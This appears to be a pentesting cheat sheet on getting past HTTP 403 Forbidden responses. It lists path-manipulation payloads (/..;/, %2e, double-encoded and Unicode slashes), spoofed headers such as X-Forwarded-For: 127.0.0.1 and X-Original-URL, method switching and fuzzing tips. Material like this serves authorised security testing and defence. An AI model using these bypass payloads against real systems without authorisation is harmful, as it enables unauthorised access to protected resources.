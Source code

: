 <h1> Bypassing 403 Responses </h1> <br>
<b> Install 403 bypass onto Burpsuite from the extender tool, this then becomes an extension you can run on 403 pages on Burpsuite </p> <br>

<h2> Directory Brute Forcing </h2><br>
Bruteforce the URL path on the 403 directory. Use different wordlists and experiment to see if you can access further pages after the 403 directory <br>
/access/user - 403    /access/user/properties.json  - 200 OK <br>
<br>

<h2> URL Paths </h2> <br>
Adding the following within the URL and the file that is 403'd <br>
/* <br>
/%2f/ <br>
/./ <br>
/ <br>
/*/ <br> 
/..;/ <br>
/..%3B/ <br> 
<br>
This is common on Apache Tomcat <br>

<h2> Change request methods </h2> <br>
Don't just send a get request, try POST, PATCH, PUT, GET, TRACE <br>
<br>

<h2 Add .json to the end of the file name, or brute force a .json file endpoint after the 403 file <h2>
  /api/user - 403 <br>
  /api/user/properties.json - 200 OK
<br>
  <h2> HTTP Headers </h2> <br>
  Change Host header to value of a subdomain, google.com etc <br>
  <br>
  Fuzz headers that may allow you to bypass <br>
X-Originating-IP: 127.0.0.1 <br>
X-Forwarded-For: 127.0.0.1 <br>
X-Forwarded: 127.0.0.1 <br>
Forwarded-For: 127.0.0.1 <br>
X-Remote-IP: 127.0.0.1 <br>
X-Remote-Addr: 127.0.0.1 <br>
X-ProxyUser-Ip: 127.0.0.1 <br>
X-Original-URL: 127.0.0.1 <br>
Client-IP: 127.0.0.1 <br>
True-Client-IP: 127.0.0.1 <br>
Cluster-Client-IP: 127.0.0.1 <br>
X-ProxyUser-Ip: 127.0.0.1 <br>
Host: localhost <br>
  
  <br>
  If the path is protected you can try the following headers <br>
 X-Original-URL: /path/file <br>
X-Rewrite-URL: /path/file <br> 
  Your normal request would be a request to / with the headers identifying the actual path. <br>
  <br>
  <h2> Path Fuzzing <h2> <br>
    if /admin is blocked : <br>
Try using /%2e/admin _(if the access is blocked by a proxy, this could bypass the protection). Try also_** /%252e**/admin (double URL encode) <br>
Try Unicode bypass: /%ef%bc%8fadmin (The URL encoded chars are like "/") so when it's encoded back it will be //path and maybe you will have already bypassed the /path name check <br>
    <br>
site.com/secret –> HTTP 403 Forbidden <br>
site.com/SECRET –> HTTP 200 OK <br>
site.com/secret/ –> HTTP 200 OK <br>
site.com/secret/. –> HTTP 200 OK <br>
site.com//secret// –> HTTP 200 OK <br>
site.com/./secret/.. –> HTTP 200 OK <br>
site.com/;/secret –> HTTP 200 OK <br>
site.com/.;/secret –> HTTP 200 OK <br>
site.com//;//secret –> HTTP 200 OK <br>
site.com/secret.json –> HTTP 200 OK (ruby) <br> 
<br>
 For unicoding, if you are trying to access /admin -403, try adding all the unicode characters in this list within the path https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Unicode.txt <br>
The request would be /FUZZadmin - /FUZZ/admin - /adminFUZZ
